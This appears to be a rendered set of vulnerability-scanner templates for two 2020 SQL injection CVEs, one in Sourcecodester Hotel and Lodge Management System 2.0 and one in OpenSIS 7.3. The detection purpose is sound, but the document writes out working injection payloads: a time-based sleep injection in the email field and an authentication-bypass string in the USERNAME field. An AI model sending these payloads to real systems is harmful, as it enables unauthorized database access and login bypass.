 **Type - word**
- part - body
- words
    1. {{md5({{num}})}}

---
# Sourcecodester Hotel and Lodge Management System 2.0 - SQL Injection
## Description
- Sourcecodester Hotel and Lodge Management System 2.0 is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the email parameter to the edit page for Customer, Room, Currency, Room Booking Details, or Tax Details.

- severity - critical
- tags - cve,cve2020,hotel,sqli,unauth
## Requests
### Step - 1
```
POST /forgot_password.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

btn_forgot=1&email=1%27%20or%20sleep(6)%23

```
### Matchers

**Type - dsl**
- dsl
    1. duration>=6
    2. status_code == 200
    3. contains(body, "Hotel Booking System")
- condition - and

---
# OpenSIS 7.3 - SQL Injection
## Description
- OpenSIS Community Edition version 7.3 is vulnerable to SQL injection via the USERNAME parameter of index.php.
- severity - critical
- tags - cve,cve2020,sqli,opensis
## Requests
- Method - POST
- Method - POST
### URL
- {{BaseURL}}/account/index.php
- {{BaseURL}}/opensis/index.php
- {{BaseURL}}/index.php
  - USERNAME=%27%29or%601%60%3D%601%60%3B--+-&PASSWORD=A&language=en&log=
